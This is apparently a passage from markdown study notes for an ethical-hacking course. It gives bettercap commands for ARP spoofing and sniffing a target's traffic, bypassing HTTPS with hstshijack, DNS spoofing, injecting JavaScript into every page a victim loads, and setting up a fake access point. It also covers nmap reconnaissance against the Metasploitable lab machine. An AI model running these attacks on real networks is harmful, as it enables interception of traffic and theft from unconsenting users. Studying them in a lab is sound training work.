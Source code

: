 ##### Using caplet
All commands can be run in a caplet file. e.g. for sniffing.
```
net.probe on
net.recon on
set arp.spoof.fullduplex true
set arp.spoof.targets [targetIP]
arp.spoof on
set net.sniff.local true
set net.sniff.output outputfile.cap (to open in wireshark)
net.sniff on
```
and save as e.g. sniffing.cap

Run `bettercap -iface wlan0 -caplet filename.cap`
##### Bypassing HTTPS
Run `bettercap -iface wlan0 -caplet sniffing.cap` to start sniffing.

And then run `hstshijack/hstshijack` (the caplet does not work perfectly so Zaid provided modified hstshijack)

If a website is HSTS enabled, bypassing HTTPS will not work.
##### DNS spoofing
Run `bettercap -iface wlan0 -caplet sniffing.cap` to start sniffing.

Then run the following.
```
set dns.spoof.all true
set dns.domains example.com
dns.spoof on
```
##### Inject javascript code
Say, javascript file location: /root/test.js

Edit /usr/share/bettercap/caplets/hstshijack.cap. Add following.
```
set hstshijack.payloads *:/root/test.js
```
* to execute in all pages

Then follow bypassing HTTPS procedure.
### Fake access point
Using [hostapd-mana](https://github.com/sensepost/hostapd-mana)

Edit hostapd.conf according to wiki and run `./hostapd hostapd.conf`
### Detect ARP poisoning attack
Use xarp.

# Gaining access
## Server side attacks
### Using Metasploitable
The intentionally vulnerable target machine. Download [here](https://information.rapid7.com/download-metasploitable-2017.html). Configue metasploitable in VirtualBox [here](https://www.youtube.com/watch?v=a0X9-lCOsEo).
### Information gathering
Get IP of server. e.g.
```
ping google.com
```
Get detailed info. Check for running services. Run nmap.
```
nmap -T4 -A -v [IP]
```
